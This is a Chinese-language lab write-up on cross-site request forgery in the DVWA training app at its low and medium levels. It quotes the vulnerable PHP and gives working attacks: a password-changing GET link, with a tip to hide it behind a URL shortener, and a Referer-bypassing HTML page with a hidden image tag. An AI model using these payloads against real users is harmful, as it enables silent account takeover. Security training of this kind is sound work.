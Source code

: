 ```yaml
---
title: DVWA之CSRF
date: 2019-3-19
tags: DVWA

---
```


- CSRF，全称Cross-site request forgery，就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），引导诱骗用户点击存在恶意代码的页面，在受害人不知情的情况下利用受害者的身份向服务器发送请求，从而完成非法操作。

- CSRF产生的本质原因：HTTP是无状态协议。前后两个请求无法相互标识，保持状态，各个请求之间是相互独立的。

**1. low 没有任何防御措施，可以直接进行攻击**

```
 if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match? 
```
_从源代码可以看出，只检查了是否是GET请求_

**攻击方法：直接链接访问即可修改密码**

`http://127.0.0.1/DVWA-master/vulnerabilities/csrf/?password_new=admin1&password_conf=admin1&Change=Change#`

**如果觉得这样太明显可以百度`短链接生成器` ，从而将这个链接做成一个看不出意图的短链接**

**2. medium**
```
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match? 
```
_从源代码可以看出检查了保留变量 HTTP_REFERER（http包头的Referer参数的值，表示来源地址）中是否含有SERVER-NAME（本地是127.0.0.1）
_

**攻击方法:绕过referer.通过burp测试出refere检查的是必须要来自127.0.0.1。所以构造这样一个html文件，放在和dvwa同一个服务器下，再诱使用户访问即可。**

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>CSRF</title>
</head>
<body>
<img src="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=1234567&password_conf=1234567&Change=Change#" border="0" style="display:none;"/>
<h1>Hello<h1>
<h2>Your password has been changed.<h2>
</body>
</html>
```
